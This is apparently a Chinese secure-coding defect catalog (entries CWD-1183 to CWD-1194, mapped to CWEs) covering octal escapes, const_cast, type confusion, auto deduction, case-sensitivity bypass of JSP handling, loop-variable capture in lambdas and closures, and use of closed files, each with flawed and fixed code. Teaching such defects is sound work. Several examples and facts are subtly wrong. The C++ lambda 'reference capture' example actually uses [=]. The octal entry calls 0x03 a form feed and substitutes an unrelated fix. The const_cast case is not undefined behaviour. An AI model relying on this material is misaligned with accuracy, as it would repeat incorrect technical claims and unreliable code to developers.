**案例1: 八进制转换**
**语言: **C

**描述**
字符串"\038"会被编译器解析为八进制转义序列\03（即十进制的3），然后紧跟字符'8'。

**案例分析**
字符串"\038"会被编译器解析为八进制转义序列\03（即十进制的3），然后紧跟字符'8'。输出结果为"\x038"，即控制字符0x03（通常是换页符）后跟字符'8'。使用十六进制转义序列\x08明确表示退格符（ASCII码为8）。

**反例**
```c
#include <stdio.h>

int main() {
    char str[] = "\038"; // 八进制转义序列\03后跟字符'8'
    printf("字符串内容：'%s'\n", str);
    return 0;
}
```

**正例**
```c
#include <stdio.h>

int main() {
    char str[] = "\x08"; // 使用十六进制转义序列表示退格符
    printf("字符串内容：'%s'\n", str);
    return 0;
}
```

**修复建议**
明确字符编码，尽量避免使用八进制转义序列（如\0开头的转义），改用十六进制转义序列（如\x开头）或Unicode表示法（如\u开头）。

#### CWD-1183-000 不同进制的解析错误

**业界缺陷**

- [CWE-1389: Incorrect Parsing of Numbers with Different Radices](https://cwe.mitre.org/data/definitions/1389.html)
---

# CWD-1184 类型转换移除类型中的常量或易失性限定

**描述**
在C++中，使用类型转换操作符（如const_cast、volatile_cast）时，可能会移除变量的const或volatile限定，导致未定义行为或程序错误。常见的问题包括：1.常量限定的移除： 使用const_cast将const类型的指针或引用转换为非const类型，可能导致对常量的非法修改，引发未定义行为。2.易失性限定的移除： 移除volatile限定可能导致编译器对变量进行优化，忽略其易失性特性，导致程序行为不可预测。3.类型转换的潜在问题： 不当的类型转换可能导致数据损坏或程序崩溃。通常应避免不必要的类型转换，或使用const和volatile限定符，甚至通过防御性编程等手段规避。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠,高效,可读,可维护

**缺陷防护全景**
**软件实现设计**
- 策略：在设计阶段，明确const和volatile的使用场景，并制定相关的编码规范：
  1.合理使用const： 将所有不可变的数据或对象声明为const，确保其不可变性。
  2.正确使用volatile： 在需要避免编译器优化的场景（如硬件寄存器、多线程共享变量）中使用volatile。
  3.设计防御性接口： 在函数或类的设计中，避免返回或接受可修改的const或volatile类型。
  4.文档化类型限定： 在设计文档中明确const和volatile的使用规则，确保团队成员一致理解。

**编码**
- 策略：在编码时，遵循以下原则：
  1.避免不必要的类型转换： 尽量避免使用const_cast或volatile_cast，除非绝对必要。
  2.显式标注const和volatile： 在变量、函数参数和返回值中显式标注const和volatile，确保类型限定不被移除。
  3.使用const引用： 尽量使用const引用传递数据，避免不必要的修改。
  4.防御性编程： 在需要修改const或volatile对象时，确保操作是合法且必要的，并添加注释说明原因。

**开发者测试**
- 策略：
  1.const和volatile保护测试： 测试const和volatile对象是否被意外修改。
  2.类型转换测试： 测试使用const_cast或volatile_cast的场景，确保转换不会导致未定义行为。
  3.边界条件测试： 测试const和volatile对象在极端条件下的行为，确保程序稳定。
  4.多线程测试： 测试volatile变量在多线程环境中的行为，确保可见性和原子性。

**代码Review**
- 策略：
  1.类型转换检查： 检查所有const_cast和volatile_cast的使用，确保其必要性和合法性。
  2.const和volatile标注： 确保所有变量、函数参数和返回值正确标注const和volatile。
  3.防御性代码： 确保代码中没有不必要的类型转换，避免移除const或volatile限定。

**代码检查**
- 策略：
  1.设置代码检查规则，使用静态代码分析工具扫描。

**示例**
**案例1: const_cast转换**
**语言: **CPP

**描述**
代码中使用const_cast将const int* 转换为int*，移除了const限定。尝试修改通过const_ptr指向的常量，导致未定义行为，可能引发程序崩溃或不可预测的结果。

**反例**
```c++
#include <iostream>

int main() {
    const int* const_ptr = new int(42); // 常量指针指向常量整数
    int* non_const_ptr = const_cast<int*>(const_ptr); // 移除const限定
    *non_const_ptr = 10; // 尝试修改常量，导致未定义行为
    std::cout << "常量被修改为：" << *const_ptr << std::endl;
    delete const_ptr;
    return 0;
}
```

**正例**
```c++
#include <iostream>

int main() {
    const int* const_ptr = new int(42); // 常量指针指向常量整数
    // 不进行类型转换，避免修改常量
    std::cout << "常量值为：" << *const_ptr << std::endl;
    delete const_ptr;
    return 0;
}
```

**修复建议**
1.避免使用const_cast： 尽量避免使用const_cast移除const限定，除非确实需要修改常量。
2.使用const和volatile限定符： 在声明变量时，正确使用const和volatile限定符，确保编译器不会进行不当优化。

#### CWD-1184-000 类型转换移除类型中的常量或易失性限定

---

# CWD-1185 使用不兼容类型访问资源

**描述**
使用不兼容类型访问资源是指在编程中，使用了与目标资源不匹配的数据类型来访问或操作资源。这种做法可能导致类型不匹配，进而引发未定义行为，如内存损坏、程序崩溃或安全漏洞，应尽量避免不必要的类型转换。在C语言中，这种问题尤为突出，因为C语言允许直接操作内存，但同时也要求开发者严格管理数据类型。通常应明确数据类型和接口，或通过类型一致性检查等手段避免。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略：
  1.明确数据类型和接口：在设计阶段，明确规定每个模块和接口的数据类型，确保类型的一致性和兼容性。
  2.类型一致性检查：设计时考虑数据流，确保数据在不同模块之间的传递不会导致类型不匹配。
  3.避免不必要的类型转换：在设计中尽量减少类型转换的需求，特别是在处理指针和内存时。

**编码**
- 策略：
  1.使用正确的数据类型：确保变量、指针和内存分配的数据类型与实际使用类型一致。
  2.避免不安全的类型转换：尽量避免使用强制类型转换，特别是在处理指针和内存时。
  3.启用编译器警告：利用编译器的类型检查功能，如-Wcast-align，及时发现潜在的类型不匹配问题。

**开发者测试**
- 策略：
  1.单元测试：编写单元测试，特别是针对类型转换和内存操作的函数，确保数据在不同类型之间正确转换。
  2.边界条件测试：测试在极端情况下，类型转换是否会导致数据损坏或程序崩溃。
  3.类型转换验证：在测试中加入类型转换的验证，确保转换后的数据与预期一致。

**代码Review**
- 策略：
  1.类型检查：在代码审查过程中，重点检查指针和变量的类型是否与实际数据匹配。
  2.类型转换审查：审查所有类型转换操作，确保其必要性和安全性。
  3.代码风格和规范：制定并遵循代码风格指南，避免不安全的类型转换。

**编译构建**
- 策略：
  1.启用编译器警告：利用编译器的类型检查功能，如-Wcast-align，及时发现潜在的类型不匹配问题。

**代码检查**
- 策略：
  1.静态代码分析：使用静态分析工具，如Coverity、SonarQube或clang静态分析器，自动检测类型不匹配和不安全的类型转换

**示例**
**案例1: 类型不匹配**
**语言: **C

**描述**
风险代码中将整型数据通过指针复制给float

**案例分析**
类型不匹配： floatArray 是一个指向 float 类型的指针，而 intPointer 被错误地转换为 int 指针。这种转换导致内存区域被错误地解释为 int 类型。

**反例**
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    // 分配内存用于存储float数组
    float *floatArray = (float *)malloc(5 * sizeof(float));
    if (floatArray == NULL) {
        exit(EXIT_FAILURE);
    }

    // 错误地将float指针转换为int指针
    int *intPointer = (int *)floatArray;

    // 写入int数据到float内存区域
    *intPointer = 123;

    // 读取float数据，结果不可预测
    printf("Float value: %f\n", *floatArray);

    free(floatArray);
    return 0;
}
```

**正例**
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    // 分配内存用于存储float数组
    float *floatArray = (float *)malloc(5 * sizeof(float));
    if (floatArray == NULL) {
        exit(EXIT_FAILURE);
    }

    // 正确使用float指针
    *floatArray = 123.0f;

    // 正确读取float数据
    printf("Float value: %f\n", *floatArray);

    free(floatArray);
    return 0;
}
```

**修复建议**
1.使用正确的数据类型： 确保指针类型与目标资源的数据类型匹配。
2.避免不必要的类型转换： 尽量避免强制类型转换，特别是在处理内存时。
3.使用编译器警告： 启用编译器警告，如 -Wcast-align，以检测潜在的类型不匹配问题。

**案例2: 使用 union 类型**
**语言: **CPP

**描述**
union 类型在 C++ 中用于定义一个可以存储多种不同数据类型的变量，但它的使用存在一些潜在的问题。union 的所有成员共享同一块内存空间，union 的使用容易导致类型不安全的问题，尤其是当使用不兼容的类型访问资源时，可能会引发未定义行为。

**反例**
```cpp
namespace NS2
{
union U1 // 不符合
{
    int32_t i;
    float32_t j;
};
}
```

**正例**
```cpp
namespace NS1
{
// 符合，无union类型
};
```

**修复建议**
避免使用 union。

#### CWD-1185-000 使用不兼容类型访问资源

**业界缺陷**

- [CWE-843: Access of Resource Using Incompatible Type ('Type Confusion')](https://cwe.mitre.org/data/definitions/843.html)
---

# CWD-1186 不合理的使用 auto 类型推导

**描述**
在 C++ 中，auto 关键字用于自动推导变量的类型，这在简化代码和提高可读性方面非常有用。然而，如果不合理地使用 auto，可能会导致类型推导错误，进而引发未定义行为或逻辑错误。常见的不合理使用包括：1.类型推导不明确： 在某些复杂的表达式中，auto 可能会推导出与预期不符的类型。2.隐式类型转换： auto 可能会隐式地进行类型转换，导致数据精度丢失或不期望的行为。3.忽略类型信息： 过度依赖 auto 可能会掩盖代码中的类型信息，降低代码的可读性和可维护性。通常应避免过渡使用auto自动推导，或显示的指定类型来避免。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
安全,可靠,可读,可维护

**缺陷防护全景**
**软件实现设计**
- 策略：
  1.明确类型使用规范：在设计阶段，制定明确的类型使用规范，规定在哪些情况下使用 auto 是合适的，哪些情况下需要显式指定类型。
  2.类型一致性设计：确保模块和接口之间的类型一致性，避免因类型推导不明确导致的不兼容问题。
  3.复杂表达式显式处理：在设计复杂表达式时，建议显式指定类型，避免 auto 推导出不期望的类型。

**编码**
- 策略：
1.合理使用 auto：在简单变量声明中使用 auto，但在复杂表达式中显式指定类型。
2.检查类型推导：在使用 auto 时，仔细检查类型推导是否符合预期，必要时使用 decltype 辅助。
3.避免隐式转换：在 auto 推导时，避免隐式类型转换，确保数据精度和范围符合预期。

**代码Review**
- 策略：
  1.审查 auto 使用：在代码审查过程中，重点检查 auto 的使用情况，确保其合理性和安全性。
  2.类型推导审查：审查所有 auto 推导的类型，确保其符合预期。
  3.代码风格和规范：制定并遵循代码风格指南，避免不合理的 auto 使用。

**代码检查**
- 策略：
  1.设置代码检查规则，使用静态分析工具，如 Coverity、SonarQube 或 clang 静态分析器，自动检测不合理的 auto 使用。

**示例**
**案例1: 不合理的使用auto类型推导**
**语言: **CPP

**描述**
sum 的类型被推导为 int，而 std::stoi(str) 返回的是 int，但在实际应用中，如果字符串表示的数值超过 int 的范围，会导致溢出。

**案例分析**
如果 sum 的类型是 int，而字符串表示的数值非常大，可能会导致溢出，从而引发未定义行为。

**反例**
```c++
#include <vector>
#include <string>

int main() {
    // 风险代码：不合理的使用 auto 类型推导
    std::vector<std::string> vec = {"123", "456", "789"};
    auto sum = 0;  // sum 的类型被推导为 int

    for (const auto& str : vec) {
        // 尝试将字符串转换为整数，但 sum 的类型是 int，无法存储大数
        sum += std::stoi(str);
    }

    // 输出结果可能不正确，因为 sum 的类型是 int，无法存储超过 int 范围的值
    std::cout << "Sum: " << sum << std::endl;

    return 0;
}
```

**正例**
```c++
#include <vector>
#include <string>
#include <cstdint>  // 包含 uint64_t 的头文件

int main() {
    std::vector<std::string> vec = {"123", "456", "789"};
    uint64_t sum = 0;  // 显式指定 sum 的类型为 uint64_t，避免溢出

    for (const auto& str : vec) {
        // 将字符串转换为 uint64_t，避免溢出
        sum += std::stoull(str);
    }

    // 输出结果正确，因为 sum 的类型是 uint64_t，可以存储较大的数值
    std::cout << "Sum: " << sum << std::endl;

    return 0;
}
```

**修复建议**
1.显式指定类型： 在需要精确控制类型的情况下，显式指定变量的类型，避免依赖 auto。
2.避免过度使用 auto： 在复杂的表达式中，避免过度使用 auto，以免类型推导不明确。

#### CWD-1186-000 不合理的使用 auto 类型推导

#### CWD-1186-001 auto默认会忽略const和引用折叠导致接收值失去只读语义，并且退化为值语义进行拷贝

---

# CWD-1188 大小写敏感处理不正确

**别名: **无法解决大小写问题

**描述**
大小写敏感处理不正确的缺陷指的是在处理字符串或字符时，未正确区分或统一大小写，导致程序的行为不符合预期。这种情况下，程序可能在比较、存储或显示数据时出现错误，影响功能的正确性和用户体验。通常通过明确处理大小写、使用大小写不敏感的函数等手段避免。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全,可靠,可读,可维护

**缺陷防护全景**
**软件实现设计**
- 策略：在设计阶段明确字符串的大小写处理规则。
  1.确定系统中哪些部分需要区分大小写，哪些部分不需要。
  2.设计统一的字符串处理接口，确保所有字符串操作遵循相同的大小写规则。
  3.使用不区分大小写的比较函数或自定义函数，避免直接使用区分大小写的函数。

**编码**
- 策略：在编码时确保字符串操作符合大小写处理规则。
  1.使用不区分大小写的字符串比较函数，如strcasecmp（在POSIX系统中可用）。
  2.在需要区分大小写的地方，明确使用区分大小写的函数，并添加注释说明原因。
  3.在处理用户输入时，统一转换为小写或大写，确保一致性。

**开发者测试**
- 策略：编写测试用例，覆盖各种大小写情况。
  1.测试字符串比较在全大写、全小写、混合大小写等情况下的表现。
  2.验证用户输入在不同大小写下的处理是否符合预期

**代码Review**
- 策略：在代码审查时重点检查字符串处理部分。
  1.检查所有字符串比较操作，确保使用了正确的大小写处理函数。
  2.确保在需要不区分大小写的地方使用了不区分大小写的函数。
  3.检查字符串转换大小写的逻辑是否正确，避免遗漏或错误转换。

**集成测试**
- 策略：在集成测试中验证大小写处理的正确性。
  1.模拟各种大小写输入，确保系统在不同大小写情况下都能正常工作。
  2.测试用户认证、文件操作等关键功能，确保大小写处理符合预期。
  3.使用自动化测试工具，检测大小写处理是否正确，避免因大小写问题导致的功能错误

**示例**
**案例1: 大小写敏感处理不正确**
**语言: **C

**描述**
风险代码中使用strcmp来比较大小，strcmp区分大小写。

**案例分析**
strcmp函数是区分大小写的，所以"Hello"和"hello"会被认为不相等，程序会输出“Strings are not equal.”。但如果预期是不区分大小写比较，这个结果就是错误的。

**反例**
```c
#include <stdio.h>
#include <string.h>

int compare_strings(const char* str1, const char* str2) {
    return strcmp(str1, str2);
}

int main() {
    const char* str1 = "Hello";
    const char* str2 = "hello";
    if (compare_strings(str1, str2) == 0) {
        printf("Strings are equal.\n");
    } else {
        printf("Strings are not equal.\n"); // strcmp区分大消息
    }
    return 0;
}
```

**正例**
```c
#include <stdio.h>
#include <string.h>
#include <ctype.h>

int compare_strings_case_insensitive(const char* str1, const char* str2) {
    while (*str1 && *str2) {
        if (tolower(*str1) != tolower(*str2)) {
            return -1;
        }
        str1++;
        str2++;
    }
    return 0;
}

int main() {
    const char* str1 = "Hello";
    const char* str2 = "hello";
    if (compare_strings_case_insensitive(str1, str2) == 0) {
        printf("Strings are equal (case-insensitive).\n");
    } else {
        printf("Strings are not equal (case-insensitive).\n");
    }
    return 0;
}
```

**修复建议**
1.统一大小写：在比较字符串前，将所有字符转换为统一的大小写（如小写或大写）。
2.使用专门的函数：使用专门的不区分大小写的比较函数，如strcasecmp（在POSIX系统中可用）。
3.逐字符比较：如果需要自定义比较逻辑，逐字符转换大小写并比较，确保所有字符都被正确处理。

**案例2: 通过大小写敏感性问题绕过JSP文件的正常处理**
**语言: **JAVA

**描述**
服务器可能没有正确处理文件扩展名的大小写敏感性。例如，攻击者可以通过在请求中使用大写的JSP扩展名（如 .JSP 或 .Jsp），绕过服务器对JSP文件的正常处理机制，直接读取JSP文件的源代码。

**案例分析**
代码中的 fileExtension.equals("jsp") 是大小写敏感的。如果攻击者请求的文件扩展名是大写的（如 .JSP 或 .Jsp），则 fileExtension 将不等于 "jsp"，从而绕过JSP处理逻辑，直接读取文件内容。

**反例**
```java
// 不符合：检查文件扩展名是否为.jsp
if (fileExtension.equals("jsp")) {
    return;
}

// 读取文件内容并处理
String line;
try (FileInputStream fis = new FileInputStream(fileExtension);
    InputStreamReader isr = new InputStreamReader(fis, StandardCharsets.UTF_8);
    BufferedReader br = new BufferedReader(isr)) {
    line = br.readLine();
    ...
}
```

**正例**
```java
// 符合：比较是大小写不敏感的
if (fileExtension.toLowerCase().equals("jsp")) {
    return;
}

// 读取文件内容并处理
String line;
try (FileInputStream fis = new FileInputStream(fileExtension);
    InputStreamReader isr = new InputStreamReader(fis, StandardCharsets.UTF_8);
    BufferedReader br = new BufferedReader(isr)) {
    line = br.readLine();
    ...
}
```

**修复建议**
在所有涉及文件扩展名或路径的处理中，统一使用小写或大写进行比较。例如，将文件扩展名转换为小写后进行比较，以避免大小写敏感性问题。

#### CWD-1188-000 大小写敏感处理不正确

**业界缺陷**

- [CWE-178: Improper Handling of Case Sensitivity](https://cwe.mitre.org/data/definitions/178.html)
---

# CWD-1190 lambda表达式使用外部的循环代码中定义的变量

**描述**
在C++中，lambda表达式可以捕获其作用域中的变量。然而，如果在循环内部定义lambda，并且lambda捕获了循环变量，可能会导致意外的行为。这是因为lambda捕获的是变量的引用，而不是变量的当前值。当循环结束后，所有lambda可能共享同一个变量，导致它们引用的变量值在循环结束后被修改，从而引发不可预测的结果。

**语言: **CPP,JAVA,PYTHON

**严重等级**
一般

**cleancode特征**
可靠,可读

**缺陷防护全景**
**软件实现设计**
- 策略：在设计阶段明确 lambda 的使用场景和捕获规则。
  1.避免在循环中使用 lambda 捕获外部变量，尤其是在循环变量可能被多次修改的情况下。
  2.如果必须使用 lambda，设计时应确保每个 lambda 捕获的是独立的变量副本，而不是共享的循环变量。
  3.使用函数对象（functor）或回调函数替代 lambda，以避免捕获循环变量的问题。

**编码**
- 策略：在编码时采取以下措施：
  1.在循环内部创建循环变量的副本，并在 lambda 中捕获副本的值，而不是直接捕获循环变量。
  2.使用值捕获（[=]）而不是引用捕获（[&]），以确保 lambda 捕获的是变量的当前值。
  3.避免在 lambda 中捕获可能在循环结束后被修改的变量。
  4.如果必须捕获循环变量，确保在每次循环迭代中为 lambda 创建独立的捕获环境。

**开发者测试**
- 策略：编写单元测试和边界条件测试，验证 lambda 的行为。
  1.测试 lambda 在不同循环迭代中的输出，确保每个 lambda 捕获的是正确的值。
  2.测试循环变量在循环结束后被修改时，lambda 的行为是否符合预期。
  3.验证 lambda 在多线程或异步执行环境中的行为，确保没有竞态条件或意外修改。

**代码Review**
- 策略：在代码审查时，重点关注以下内容：
  1.检查 lambda 是否捕获了循环变量。
  2.确保 lambda 捕获的是变量的值，而不是引用。
  3.确认循环变量在 lambda 中的使用是否会导致意外行为。
  4.提供代码审查检查清单，明确 lambda 捕获变量的规则。

**编译构建**
- 策略：在编译阶段启用警告和错误，检测潜在问题。
  1.使用编译器的警告功能（如 -Wlambda-capture-in-loop）检测 lambda 捕获循环变量的问题。
  2.在构建脚本中集成代码检查工具，确保代码符合安全规范。

**代码检查**
- 策略：使用静态代码分析工具（如 clang-tidy、cppcheck 等）检测潜在问题。
  1.设置代码检查规则，通过静态代码分析工具，识别 lambda 捕获循环变量的模式。
  2.设置代码检查规则，通过静态代码分析工具警告或阻止 lambda 直接捕获循环变量。

**示例**
**案例1: lambda表达式使用外部的循环代码中定义的变量**
**语言: **CPP

**描述**
在风险代码中，lambda使用引用捕获了循环变量i。当循环结束后，i的值变为3。

**案例分析**
在这个风险代码中，lambda使用引用捕获了循环变量i。当循环结束后，i的值变为3。因此，所有lambda在调用时都会输出3，而不是它们在循环中对应的值0、1、2。这是因为所有lambda引用了同一个变量i，而i在循环结束后已经被修改

**反例**
```c++
#include <vector>
#include <functional>

int main() {
    std::vector<std::function<void()>> lambdas;
    int i;

    for (i = 0; i < 3; ++i) {
        lambdas.push_back([=]() { // 使用引用捕获i
            std::cout << "Lambda value: " << i << std::endl;
        });
    }

    for (const auto& lambda : lambdas) {
        lambda();
    }

    return 0;
}
```

**正例**
```c++
#include <vector>
#include <functional>

int main() {
    std::vector<std::function<void()>> lambdas;

    for (int i = 0; i < 3; ++i) {
        int current_i = i; // 创建当前循环变量的副本
        lambdas.push_back([current_i]() { // 捕获current_i的值
            std::cout << "Lambda value: " << current_i << std::endl;
        });
    }

    for (const auto& lambda : lambdas) {
        lambda();
    }

    return 0;
}
```

**修复建议**
1.捕获变量的值：在lambda中使用值捕获，而不是引用捕获。例如，使用[=]来捕获所有变量的值，或者显式地捕获特定变量的值。
2.创建变量副本：在循环内部创建循环变量的副本，并在lambda中捕获这个副本。这样，每个lambda都会捕获当前循环迭代的值，而不是共享同一个变量。

**案例2: lambda表达式使用外部循环变量**
**语言: **PYTHON

**描述**
在Python中，当在循环中使用lambda表达式引用循环变量时，lambda会延迟绑定变量的值。这意味着所有lambda函数都会引用循环结束后的变量值，而不是循环过程中的当前值。

**案例分析**
反例分析：
- map函数返回一个生成器对象，延迟计算。
- 循环结束后，i的值为4。
- 所有生成器在遍历时使用i=4，导致结果错误。

**反例**
```python
map_list = []
for i in range(5):
    # 不符合，循环中使用lambda，延迟调用
    map_list.append(map(lambda j: i + j, range(5)))

for unit in map_list:
    print(list(unit))


执行结果：
[4, 5, 6, 7, 8]
[4, 5, 6, 7, 8]
[4, 5, 6, 7, 8]
[4, 5, 6, 7, 8]
[4, 5, 6, 7, 8]
```

**正例**
```python
for i in range(5):
    # 符合，list是强制进行计算并转为list格式，是立即执行的
    print(list(map(lambda j: i + j, range(5))))


执行结果：
 [0, 1, 2, 3, 4]
 [1, 2, 3, 4, 5]
 [2, 3, 4, 5, 6]
 [3, 4, 5, 6, 7]
 [4, 5, 6, 7, 8]
```

**修复建议**
lambda表达式不能引用循环变量，如果在循环中立即调用函数或使用lambda表达式，而不是循环结束之后才调用或使用，可以在函数或lambda表达式中使用外部循环中的变量。

#### CWD-1190-000 lambda表达式使用外部的循环代码中定义的变量

---

# CWD-1191 在闭包中直接使用循环控制变量

**描述**
闭包可以捕获其所在作用域中的变量。然而，如果在循环内部定义闭包，并且闭包直接捕获循环控制变量，可能会导致意外的行为。这是因为闭包捕获的是变量的引用，而不是变量的当前值。当循环结束后，所有闭包可能共享同一个变量，导致它们引用的变量值在循环结束后被修改，从而引发不可预测的结果。

**语言: **CPP,GO

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略：在设计阶段明确闭包的使用场景和捕获规则。
  1.避免在循环中使用闭包捕获外部变量，尤其是在循环变量可能被多次修改的情况下。
  2.如果必须使用闭包，设计时应确保每个闭包捕获的是独立的变量副本，而不是共享的循环变量。
  3.使用函数工厂模式，确保每个闭包捕获的是独立的变量值。

**编码**
- 策略：
  1.在循环内部创建循环变量的副本，并在闭包中捕获副本的值，而不是直接捕获循环变量。
  2.使用值捕获，确保闭包捕获的是变量的当前值，而不是引用。
  3.避免在闭包中捕获可能在循环结束后被修改的变量。

**开发者测试**
- 策略：
  1.测试闭包在不同循环迭代中的输出，确保每个闭包捕获的是正确的值。
  2.测试循环变量在循环结束后被修改时，闭包的行为是否符合预期。

**代码Review**
- 策略：
  1.检查闭包是否直接使用了循环控制变量。
  2.确保闭包捕获的是变量的值，而不是引用。
  3.确认循环变量在闭包中的使用是否会导致意外行为。

**编译构建**
- 策略：
  1.设置代码检查规则，在集成构建环境中配置静态代码分析工具，识别闭包直接使用循环控制变量的模式。

**代码检查**
- 策略：
  1.设置代码检查规则，配置静态代码分析工具，识别闭包直接使用循环控制变量的模式。

**示例**
**案例1: 在闭包中使用循环控制变量**
**语言: **GO

**描述**
在Go语言中，闭包会捕获变量的引用，而不是它们的值。因此，当多个goroutine共享同一个循环变量时，它们都会引用同一个变量，导致所有goroutine在执行时看到的是循环结束后的最终值。

**案例分析**
闭包捕获的是变量i的引用，而不是每次循环的值。当循环结束时，i的值为5，所有goroutine在执行时都读取到i=5。

**反例**
```go
func main() {
    runtime.GOMAXPROCS(runtime.NumCPU())
    var group sync.WaitGroup

    for i := 0; i < 5; i++ {
        group.Add(1)
        go func() {
            defer group.Done()
            // 不符合： 输出结果为"5 5 5 5 5"，由于多个goroutine同时使用变量i，goroutine调用的函数闭包对外部变量使用
            // 了引用的方式，而Go运行时调度goroutine的实际时间不确定，这个结果并不是我们所期望的
            fmt.Printf("%-2d", i)
        }()
    }

    group.Wait()
}
```

**正例**
```go
func main() {
    runtime.GOMAXPROCS(runtime.NumCPU())

    var group sync.WaitGroup

    for i := 0; i < 5; i++ {
        group.Add(1)
        go func(j int) {
            defer group.Done()
            // 符合：对循环语句的goroutine需要进行显式地索引变量调用，这样才能得到类似"0 1 2 3 4"期望结果
            fmt.Printf("%-2d", j) // 闭包内部使用局部变量
        }(i) // 符合：把循环控制变量显式地传给goroutine
    }

    group.Wait()
}
```

**修复建议**
如果要在闭包中使用循环控制变量，可通过入参把循环控制变量显式地引入。

#### CWD-1191-000 在闭包中直接使用循环控制变量

---

# CWD-1193 使用已过期的资源

**描述**
使用已过期的资源的缺陷指的是在程序中使用了已经不再有效的资源，例如已经释放的内存、已经关闭的文件句柄或已经断开的网络连接等。这种情况下，程序可能会出现意外行为，导致数据损坏、程序崩溃或安全漏洞。通常通过检查资源状态，使用RAII（Resource Acquisition Is Initialization）等手段避免。如果是访问已释放内存归为内存安全。其他资源归为此类，如文件描述符多次close。

**语言: **C,CPP,JAVA

**严重等级**
严重

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略：在设计阶段明确资源的生命周期和管理机制。
  1.设计明确的资源获取和释放接口，确保资源在不再需要时被正确释放。
  2.采用RAII（Resource Acquisition Is Initialization）技术，将资源的生命周期绑定到对象的生命周期，确保资源在对象销毁时自动释放。
  3.使用资源池或对象池管理资源，避免重复获取和释放。

**编码**
- 策略：在编码时确保资源的正确获取和释放。
  1.使用智能指针（如C++中的std::unique_ptr或std::shared_ptr）管理动态内存，避免手动释放资源。
  2.在C中，确保每个malloc都有对应的free，并且避免重复释放或使用已释放的指针。
  3.在释放资源后，将指针设置为NULL，以避免意外使用。
  4. 使用try-finally块（在支持的语言中）确保资源在异常情况下也能被正确释放

**开发者测试**
- 策略：编写测试用例，验证资源的正确获取和释放。
  1.测试资源在不同使用场景下的获取和释放，确保没有资源泄漏

**代码Review**
- 策略：在代码审查时重点检查资源的获取和释放。
  1.检查每个资源是否都有对应的获取和释放操作，确保没有资源泄漏。
  2.确保没有重复释放资源或使用已释放资源的情况。
  3.审查资源管理逻辑，确保其符合设计文档中的资源管理要求。

**编译构建**
- 策略：启用编译器的资源管理警告功能。
  1.在编译时启用资源管理相关的警告选项（如-Wunused-variable、-Wshadow），检测潜在的资源管理问题

**代码检查**
- 策略：使用静态分析工具检测潜在的资源管理问题。
  1.设置代码检查规则，使用静态分析工具检测资源泄漏或非法访问。检查是否存在未释放的资源或已释放资源的重复使用。

**集成测试**
- 策略：在集成测试中验证资源管理的正确性。
  1.模拟各种资源使用场景，确保资源在不同情况下都能正确获取和释放。
  2.测试资源在高负载或长时间运行下的稳定性，确保没有内存泄漏或资源耗尽的情况。
  3.使用自动化测试工具，持续监控资源的使用状态，确保资源管理正确

**示例**
**案例1: 使用已关闭的文件指针**
**语言: **C

**描述**
尝试对已关闭的文件指针进行写入操作会导致未定义行为。

**案例分析**
尝试再次使用已关闭的 fp 进行写入操作，导致未定义行为，可能失败或程序崩溃。

**反例**
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    FILE *fp = fopen("tmp", "w"); // 以写模式打开文件
    if (fp == NULL) {
        return -1;
    }

    // 关闭文件指针
    fclose(fp);

    const char *data = "Hello, World!";
    fwrite(data, 1, strlen(data), fp); // 不符合：使用已关闭的文件指针进行写入
}
```

**正例**
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    FILE *fp = fopen("tmp", "w"); // 以写模式打开文件
    if (fp == NULL) {
        return -1;
    }

    // 关闭文件指针
    fclose(fp);

    fp = fopen("tmp", "a");  // 以追加模式重新打开文件
    if (fp == NULL) {
        return -1;
    }

    const char *data = "Hello, World!";
    fwrite(data, 1, strlen(data), fp); // 符合：正确使用已打开的文件指针

    // 关闭文件指针
    fclose(fp);
}
```

**修复建议**
1. 关闭文件指针后，应避免继续使用该指针进行任何文件操作
2. 如果需要继续操作文件，应重新打开文件并检查返回值
3. 在无法重新打开的情况下，应避免使用已关闭的文件指针
4. 可以在fclose后将指针设为NULL，以防止误用

**案例2: 使用已关闭的文件流**
**语言: **CPP

**描述**
尝试对已关闭的文件流对象进行写入操作会导致未定义行为。

**案例分析**
尝试再次使用已关闭的 outfile 进行写入操作，导致未定义行为，可能失败或程序崩溃。

**反例**
```cpp
#include <fstream>
#include <string>

int main()
{
    std::ofstream outfile;
    outfile.open("tmp.txt"); // 以写模式打开文件
    if (!outfile.is_open()) {
        return -1;
    }

    // 关闭文件流
    outfile.close();

    // 错误：使用已关闭的文件流进行写入
    const std::string data = "Hello, World!";
    outfile << data; // 未定义行为
}
```

**正例**
```cpp
#include <fstream>
#include <string>

int main()
{
    std::ofstream outfile;
    outfile.open("tmp.txt"); // 以写模式打开文件
    if (!outfile.is_open()) {
        return -1;
    }

    // 关闭文件流
    outfile.close();

    // 正确：重新打开文件
    outfile.open("tmp.txt", std::ios::app); // 以追加模式重新打开
    if (!outfile.is_open()) {
        return -1;
    }

    const std::string data = "Hello, World!";
    outfile << data; // 正确使用已打开的文件流
    outfile.close(); // 关闭文件流
}
```

**修复建议**
1. 关闭文件流后，应避免继续使用该流对象进行任何文件操作。
2. 如果需要继续操作文件，应重新打开文件并检查是否成功打开。
3. 在无法重新打开的情况下，应避免使用已关闭的文件流。

#### CWD-1193-000 使用已过期的资源

#### CWD-1193-001 将局部变量地址赋值给指针类型的成员变量，可能导致未定义行为

**业界缺陷**

- [CWE-910: Use of Expired File Descriptor](https://cwe.mitre.org/data/definitions/910.html)
---

# CWD-1194 多次释放同一资源

**描述**
多次释放同一资源的缺陷指的是在程序中对同一个资源、句柄等进行了多次释放操作。这种情况通常发生在同一个句柄被多次调用close()函数，或者在不同的代码路径中关闭了同一个资源。这种行为会导致未定义行为，可能引发程序崩溃、内存损坏或安全漏洞。通常通过使用智能指针，在释放后置空指针等手段避免。双重释放内存归为内存安全。其他资源归为此类。

**语言: **C,CPP,JAVA

**严重等级**
严重

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略：在设计阶段明确资源的生命周期和管理机制。
  1.设计明确的资源获取和释放接口，确保每个资源只被释放一次。
